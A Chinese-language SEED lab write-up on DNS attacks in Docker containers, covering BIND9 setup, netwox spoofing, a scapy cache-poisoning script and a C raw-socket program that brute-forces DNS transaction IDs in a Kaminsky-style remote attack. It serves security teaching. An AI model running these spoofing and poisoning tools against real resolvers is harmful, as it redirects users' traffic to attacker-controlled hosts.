# DNS attack

# 0.问题

# 1.环境配置

Ubuntu-Seed 20.04

## 1.1 docker 配置

- Attacker `IP`： 172.17.0.1 (主机)
- DNSServer `IP`: 172.17.0.2 (docker 容器 `Server`)
- User `IP`: 172.17.0.3 (dockker 容器 `User`)

```bash
// 创建Server
sudo docker run -it --name=Server --hostname=Server --privileged "handsonsecurity/seed-ubuntu:large" /bin/bash
// 创建User
sudo docker run -it --name=Server --hostname=Server --privileged "handsonsecurity/seed-ubuntu:large" /bin/bash

// 进入Server
sudo docker exec -it Server /bin/bash

// 进入User
sudo docker exec -it User /bin/bash

```

### 1.2 使用docker

sudo docker exec -it `容器名字` /bin/bash

```bash
# 进入User
sudo docker exec -it User /bin/bash
# 进入Server
sudo docker exec -it Server /bin/bash
```

# 2. 设置本地DNS服务器

## 2.1 配置用户计算机

在用户机User上将Server(172.17.0.2)设置为本地的DNS服务器

修改用户计算机的解析程序配置文件`/etc/resolv.conf`



## 2.2 设置本地DNS服务器

### 2.2.1 配置BIND9服务器

服务器Server在`/etc/bind/named.conf.options`文件内添加

```
options {
dump-file "/var/cache/bind/dump.db";
};
```

如果要求 BIND 转储其缓存，则上述选项指定应转储缓存内容的位置。如果 未指定此选项，BIND 会将缓存转储到名为/var/cache/bind/named_dump.db 的默认 文件中。下面显示的两个命令与 DNS 缓存有关。第一个命令将缓存的内容转储 到上面指定的文件，第二个命令清空缓存.

```bash
 sudo rndc dumpdb -cache
 sudo rndc flush
```

### 2.2.2 关闭 DNSSEC,

修改/etc/bind/named.conf.options

```
options {
# dnssec-validation auto;
dnssec-enable no;
}
```

完整/etc/bind/named.conf.options配置文件

```
options {
        directory "/var/cache/bind";

        // If there is a firewall between you and nameservers you want
        // to talk to, you may need to fix the firewall to allow multiple
        // ports to talk.  See http://www.kb.cert.org/vuls/id/800113

        // If your ISP provided one or more IP addresses for stable 
        // nameservers, you probably want to use them as forwarders.  
        // Uncomment the following block, and insert the addresses replacing 
        // the all-0's placeholder.

        forwarders {
                8.8.8.8;
        };

        //========================================================================
        // If BIND logs error messages about the root key being expired,
        // you will need to update your keys.  See https://www.isc.org/bind-keys
        //========================================================================
        // dnssec-validation auto;
        dnssec-enable no;
        dnssec-validation no;
        dump-file "/var/cache/bind/dump.db";
        minimal-responses no;
        listen-on-v6 { any; };
        query-source port 33333;
};
```

### 2.2.3 启动bind9 DNS服务器

`service bind9 restart`

在Ubuntu 20.04中自己安装的bind9中为`service named restart`

### 2.2.4 使用DNS服务器



## 2.3 在本地DNS服务器中建一个区域

### 2.3.1 创建区域

创建两个区域条目，添加以下内容到`/etc/bind/named.conf.default-zones`

```
zone "example.com" { 
	type master; 
	file "/etc/bind/example.com.db"; 
}; 
zone "0.168.192.in-addr.arpa" { 
	type master; 
	file "/etc/bind/192.168.0.db"; 
};
```

### 2.3.2 设置正向查找区域文件

example.com.db

```
$TTL 3D
@       IN      SOA     ns.example.com. admin.example.com. (
                2008111001
                8H
                2H
                4W
                1D)

@       IN      NS      ns.example.com.
@       IN      MX      10 mail.example.com.

www     IN      A       192.168.0.101
mail    IN      A       192.168.0.102
ns      IN      A       192.168.0.10
*.example.com.  IN      A 192.168.0.100
```

### 2.3.3 设置反向查找区域文件

192.168.0.db

```
$TTL 3D
@       IN      SOA     ns.example.com. admin.example.com. (
                2008111001
                8H
                2H
                4W
                1D)
@       IN      NS      ns.example.com.

101     IN      PTR     www.example.com.
102     IN      PTR     mail.example.com.
10      IN      PTR     ns.example.com.
```

### 2.3.4 验证



与配置文件中相同

# 3 本地DNS攻击

## 3.1 修改主机文件

修改`/etc/hosts`文件





## 3.2 直接欺骗用户响应 

### 3.2.1 攻击方式

目标域名: www.example.net

ip地址: 2.3.4.5

权威域名服务器: ns.example.net

ip地址: 55.66.77.88

目的用户：172.17.0.3

网卡: docker0

netwox 命令

```bash
sudo netwox 105 -h "www.example.net" -H "2.3.4.5" -a "ns.example.net" -A "55.66.77.88" --filter "src host 172.17.0.3" --device "docker0"
```

### 3.2.2 攻击效果

攻击前: 


攻击后：

netwox输出：



dig结果：


## 3.3 DNS缓存中毒

### 3.3.1 配置

为了提高攻击成功率，使用如下命令，可以提高虚拟机与互联网的延迟，使得攻击信息早于正常DNS响应到达

```bash
// 增加网络延迟1000ms
sudo tc qdisc add dev ens33 root netem delay 1000ms

// 删除网络延迟
sudo tc qdisc del dev ens33 root 

// 查看所有的延迟
sudo tc qdisc show dev ens33
```

### 3.3.2 netwox攻击

目标域名: www.example.net

ip地址: 2.3.4.5

权威域名服务器: ns.example.net

ip地址: 55.66.77.88

目的服务器：172.17.0.2

网卡: docker0

netwox命令

````bash
sudo netwox 105 -h "www.example.net" -H "2.3.4.5" -a "ns.example.net" -A "55.66.77.88" --filter "src host 172.17.0.2" --device "docker0" --ttl 600
````

攻击效果：

攻击前：


攻击后：



netwox输出：



查看缓存：

```bash
// 刷新缓存
rndc flush 
// 写入缓存
rndc dumpdb -cache
// 查询数据
cat /var/cache/bind/dump.db | grep www.example.net
```



### 3.3.3 scapy

由于scapy效率较高，设置网络延时为100ms

local_dns_poisoning.py

```python
from scapy.all import *

def spoof_dns(pkt):
#   pkt.show()
  print(pkt[DNS].qd.qname)
  if(DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname.decode('utf-8')):
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',ttl=259200, rdata='10.0.0.1')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS', ttl=259200, rdata='attacker32.com')
    NSsec2 = DNSRR(rrname='google.com', type='NS', ttl=259200, rdata='attacker32.com')

    # The Additional Section
    Addsec1 = DNSRR(rrname='attacker32.com', type='A', ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='attacker32.cn', type='A', ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=2, an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
pkt = sniff(filter='udp and dst port 53 and src host 172.17.0.2', prn=spoof_dns, iface="docker0")

```

效果：

攻击前：



攻击后：



python输出：



查看缓存



# 4 远程DNS攻击实验

## 4.1 配置本地DNS服务器

### 4.1.1 删除example.com区域



### 4.1.2 配置源端口



重启

## 4.2 DNS服务器配置

### 4.2.1 配置本地DNS服务器

`named.conf.default-zones`修改



`fqh.net.db`



### 4.2.2 配置攻击机机器

`/etc/bind/named.conf.default-zones`


`/etc/bind/example.com.zone`



## 4.3 脚本

generate_dns.py

```python
from scapy.all import *
import string
import random

# random name
name = ''.join(random.sample(string.ascii_letters, 5))+'.example.com' 
print(name)
Qdsec = DNSQR(qname=name)

# query
ip_q  = IP(dst='172.17.0.2',src='172.17.0.1') # dst: dns; src:attacker
udp_q = UDP(dport=53,sport=33333,chksum=0)
dns_q = DNS(id=0xaaaa,qr=0,qdcount=1,ancount=0,nscount=0,arcount=0,qd=Qdsec)
pkt_q= ip_q/udp_q/dns_q

# reply
ip_r = IP(dst='172.17.0.2', src='8.8.8.8', chksum=0)
udp_r = UDP(dport=33333, sport=53, chksum=0)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200)
 # The Authority Section
NSsec = DNSRR(rrname='example.com', type='NS', ttl=259200, rdata='ns.fqh.net')
Addsec = DNSRR(rrname='ns.fqh.net', type='A', ttl=259200, rdata='172.17.0.1')
dns_r = DNS(id=0xAAAA, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=1, arcount=1, qd=Qdsec, an=Anssec, ns=NSsec, ar=Addsec)
pkt_r = ip_r/udp_r/dns_r

with open('query.bin','wb')as f:
  f.write(bytes(pkt_q))
with open('reply.bin', 'wb') as f:
  f.write(bytes(pkt_r))

```

查看id的位置



位于0x1c

dns_attack.c

```c
// ----udp.c------
// This sample program must be run by root lol!
//
// The program is to spoofing tons of different queries to the victim.
// Use wireshark to study the packets. However, it is not enough for
// the lab, please finish the response packet and complete the task.
//
// Compile command:
// gcc -lpcap dns_attack.c -o dns_attack
//
//

#include <unistd.h>
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <netinet/udp.h>
#include <fcntl.h>
#include <string.h>
#include <errno.h>
#include <stdlib.h>
#include <libnet.h>
// The packet length
#define PCKT_LEN 8192
#define FLAG_R 0x8400
#define FLAG_Q 0x0100

// Can create separate header file (.h) for all headers' structure
// The IP header's structure
struct ipheader
{
    unsigned char iph_ihl : 4, iph_ver : 4;
    unsigned char iph_tos;
    unsigned short int iph_len;
    unsigned short int iph_ident;
    //    unsigned char      iph_flag;
    unsigned short int iph_offset;
    unsigned char iph_ttl;
    unsigned char iph_protocol;
    unsigned short int iph_chksum;
    unsigned int iph_sourceip;
    unsigned int iph_destip;
};

// UDP header's structure
struct udpheader
{
    unsigned short int udph_srcport;
    unsigned short int udph_destport;
    unsigned short int udph_len;
    unsigned short int udph_chksum;
};
struct dnsheader
{
    unsigned short int query_id;
    unsigned short int flags;
    unsigned short int QDCOUNT;
    unsigned short int ANCOUNT;
    unsigned short int NSCOUNT;
    unsigned short int ARCOUNT;
};
// This structure just for convinience in the DNS packet, because such 4 byte data often appears.
struct dataEnd
{
    unsigned short int type;
    unsigned short int class;
};
// total udp header length: 8 bytes (=64 bits)

unsigned int checksum(uint16_t *usBuff, int isize)
{
    unsigned int cksum = 0;
    for (; isize > 1; isize -= 2)
    {
        cksum += *usBuff++;
    }
    if (isize == 1)
    {
        cksum += *(uint16_t *)usBuff;
    }
    return (cksum);
}

// calculate udp checksum
uint16_t check_udp_sum(uint8_t *buffer, int len)
{
    unsigned long sum = 0;
    struct ipheader *tempI = (struct ipheader *)(buffer);
    struct udpheader *tempH = (struct udpheader *)(buffer + sizeof(struct ipheader));
    struct dnsheader *tempD = (struct dnsheader *)(buffer + sizeof(struct ipheader) + sizeof(struct udpheader));
    tempH->udph_chksum = 0;
    sum = checksum((uint16_t *)&(tempI->iph_sourceip), 8);
    sum += checksum((uint16_t *)tempH, len);

    sum += ntohs(IPPROTO_UDP + len);

    sum = (sum >> 16) + (sum & 0x0000ffff);
    sum += (sum >> 16);

    return (uint16_t)(~sum);
}
// Function for checksum calculation. From the RFC,
// the checksum algorithm is:
//  "The checksum field is the 16 bit one's complement of the one's
//  complement sum of all 16 bit words in the header.  For purposes of
//  computing the checksum, the value of the checksum field is zero."

unsigned short csum(unsigned short *buf, int nwords)
{
    unsigned long sum;
    for (sum = 0; nwords > 0; nwords--)
        sum += *buf++;
    sum = (sum >> 16) + (sum & 0xffff);
    sum += (sum >> 16);
    return (unsigned short)(~sum);
}

void send_pkt(char* buffer, int pkt_size)
{
  struct sockaddr_in dest_info;
  int enable=1;
  
  int sock=socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
  
  setsockopt(sock, IPPROTO_IP, IP_HDRINCL, &enable, sizeof(enable));
  
  struct ipheader *ip = (struct ipheader *)buffer;
  struct udpheader *udp = (struct udpheader *) (buffer + sizeof(struct ipheader));

  dest_info.sin_family = AF_INET;
  dest_info.sin_addr.s_addr = ip->iph_destip;
  
  udp->udph_chksum=check_udp_sum(buffer, pkt_size-sizeof(struct ipheader));
  if(sendto(sock, buffer, pkt_size, 0, (struct sockaddr *)&dest_info, sizeof(dest_info)) < 0){
		printf("packet send error %d which means %s\n",errno,strerror(errno));
	}
  close(sock);
}

int main(int argc, char *argv[])
{
    
    ////////////////////////////////////////////////////////////////////////
    // dns fields(UDP payload field)
    // relate to the lab, you can change them. begin:
    ////////////////////////////////////////////////////////////////////////
    
    while(1)
    {
      system("sudo python3 generate_dns.py"); // random pkt
      
      // read pkt
      FILE * f_q = fopen("query.bin","rb");
      char q_buffer[PCKT_LEN];
      int q_n = fread(q_buffer, 1, PCKT_LEN, f_q);
      send_pkt(q_buffer, q_n);
      
      FILE * f_r = fopen("reply.bin","rb");
      char r_buffer[PCKT_LEN];
      int r_n = fread(r_buffer, 1, PCKT_LEN, f_r);
      
      for(unsigned short i=10000;i<65535;i++){ //random id:1000~2000
        unsigned short order=htons(i); //little->big
        memcpy(r_buffer+28,&order,2);
        send_pkt(r_buffer, r_n);
      }
    }

    /////////////////////////////////////////////////////////////////////
    //
    // DNS format, relate to the lab, you need to change them, end
    //
    //////////////////////////////////////////////////////////////////////

    return 0;
}
```

编译：gcc -lpcap dns_attack.c -o dns_attack

运行：sudo ./dns_attack

## 4.4 测试

运行前：


运行dns缓存攻击脚本

`sudo ./dns_attack`



查看缓存



DNS服务器的缓存已经中毒，example.com的权威域名服务器已经更改为ns.fqh.net

用户机测试：

`dig www.example.com`

